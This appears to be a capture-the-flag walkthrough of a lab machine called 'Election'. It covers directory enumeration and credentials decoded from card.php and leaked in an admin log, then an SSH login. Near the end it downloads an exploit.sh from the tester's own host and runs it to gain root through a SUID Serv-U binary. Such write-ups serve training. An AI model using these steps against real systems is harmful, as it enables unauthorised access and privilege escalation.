 `Running all scans on 192.168.204.211`

`Host is likely running Unknown OS!`

`---------------------Starting Port Scan-----------------------`

`PORT   STATE SERVICE`
`22/tcp open  ssh`
`80/tcp open  http`

Nothing interesting on port 80
![[Pasted image 20240224122816.png]]

Gobuster to see what we find
`└─$ gobuster dir -u http://192.168.204.211/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt  -x php,txt -t 50 -b '403,404' -r`

-r is to follow redirects
-b is to not show response code 404 or 403
-t is to up the threads to 50 to make it faster
-x is to add file extensions onto the word list line items

```
└─$ gobuster dir -u http://192.168.204.211/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt  -x php,txt -t 50 -b '403,404' -r 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.204.211/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.                    (Status: 200) [Size: 10918]
/phpmyadmin           (Status: 200) [Size: 10531]
/robots.txt           (Status: 200) [Size: 30]
/phpinfo.php          (Status: 200) [Size: 95452]
/election             (Status: 200) [Size: 7003]
Progress: 189267 / 189270 (100.00%)
===============================================================
Finished
===============================================================
```

We find the robots.txt, phpinfo.php and 2 directories

Rerun it again to see what's in the election directory
```
└─$ gobuster dir -u http://192.168.204.211/election -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt  -x php,txt -t 50 -b '403,404' -r
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.204.211/election
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 7003]
/admin                (Status: 200) [Size: 8964]
/themes               (Status: 200) [Size: 965]
/js                   (Status: 200) [Size: 990]
/media                (Status: 200) [Size: 1755]
/data                 (Status: 200) [Size: 767]
/lib                  (Status: 200) [Size: 968]
/languages            (Status: 200) [Size: 1366]
/.                    (Status: 200) [Size: 7003]
/card.php             (Status: 200) [Size: 1935]
```

Checking card.php
![[Pasted image 20240224123516.png]]

What is this binary
If we convert this (twice) at https://www.rapidtables.com/convert/number/binary-to-ascii.html we get
user:1234
pass:Zxc123!@#

Using this we can login to the admin page at /election/admin/
![[Pasted image 20240224123704.png]]

Under settings we can view the logs
![[Pasted image 20240224123818.png]]

It gives us
`[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123`
`[2020-04-03 00:13:53] Love added candidate 'Love'.`
`[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).`
`[2024-02-24 22:13:51] Love has been logged in from Unknown IP on Chrome (Linux).`

We can ssh with these credentials `love:P@$$w0rd@123`

Search for suid permissions
`find / -perm -u=s 2>/dev/null | grep -v '^/proc\|^/run\|&/sys\|^/snap'`

`love@election:~$ find / -perm -u=s 2>/dev/null | grep -v '^/proc\|^/run\|&/sys\|^/snap'`
`/usr/bin/arping`
`/usr/bin/passwd`
`/usr/bin/pkexec`
`/usr/bin/traceroute6.iputils`
`/usr/bin/newgrp`
`/usr/bin/chsh`
`/usr/bin/chfn`
`/usr/bin/gpasswd`
`/usr/bin/sudo`
`/usr/sbin/pppd`
`/usr/local/Serv-U/Serv-U`
`/usr/lib/policykit-1/polkit-agent-helper-1`
`/usr/lib/eject/dmcrypt-get-device`
`/usr/lib/openssh/ssh-keysign`
`/usr/lib/dbus-1.0/dbus-daemon-launch-helper`
`/usr/lib/xorg/Xorg.wrap`
`/bin/fusermount`
`/bin/ping`
`/bin/umount`
`/bin/mount`
`/bin/su`
`/home/love`

Serv-U looks a little out of place
Google this and see if we can use it
![[Pasted image 20240224124126.png]]

We save this and upload it to your target, launching it gives us root
`--2024-02-24 23:12:16--  http://192.168.45.222/exploit.sh`
`Connecting to 192.168.45.222:80... connected.`
`HTTP request sent, awaiting response... 200 OK`
`Length: 1178 (1.2K) [text/x-sh]`
`Saving to: ‘exploit.sh’`

`exploit.sh                    100%[================================================>]   1.15K  --.-KB/s    in 0s`      

`2024-02-24 23:12:16 (188 MB/s) - ‘exploit.sh’ saved [1178/1178]`

`love@election:/tmp$ chmod +x exploit.sh`
`love@election:/tmp$ ./exploit.sh`
`[*] Launching Serv-U ...`
`cp: cannot create regular file '/tmp/sh': Text file busy`
`sh: 1: : Permission denied`
`[+] Success:`
`-rwsr-xr-x 1 root root 1113504 Feb 24 22:25 /tmp/sh`
`[*] Launching root shell: /tmp/sh`
`sh-4.4# whoami`
`root`
`sh-4.4# cat /root/proof.txt`
`e99b7029616964ab3808f5e6f6b3b783`
`sh-4.4# cat /home/love/local.txt`
`9e998024aa75f1034f1c0d5a4b1b3d80`

